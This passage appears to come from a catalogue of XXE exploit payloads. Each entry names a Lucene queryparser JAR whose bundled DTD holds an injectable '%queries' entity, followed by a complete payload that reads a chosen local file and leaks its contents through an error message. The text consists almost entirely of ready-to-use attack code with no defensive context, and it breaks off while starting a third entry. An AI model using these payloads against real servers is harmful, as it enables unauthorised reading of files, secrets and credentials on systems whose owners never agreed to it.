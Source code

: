  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/6.6.0/lucene-queryparser-6.6.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/6.6.0/lucene-queryparser-6.6.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/6.6.1/lucene-queryparser-6.6.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/6.6.1/lucene-queryparser-6.6.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/7.6.0/lucene-queryparser-7.6.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`
